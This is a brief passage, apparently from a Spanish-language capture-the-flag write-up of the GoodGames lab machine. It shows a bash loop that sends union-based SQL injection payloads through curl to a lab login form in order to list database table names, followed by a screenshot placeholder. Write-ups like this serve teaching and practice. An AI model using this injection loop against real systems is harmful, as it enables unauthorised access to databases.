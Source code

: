 Bucle `for` final:

```bash
for i in $(seq 0 100); do echo "[+] Para el numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=1234" | grep -i "welcome" | sed 's/^ *//' | cut -d '>' -f 2 | cut -d ' ' -f 2 | awk '{print $1}' FS='<')"; done
```

Obteniendo:

![Untitled](/assets/img/GoodGames/Untitled28.png)
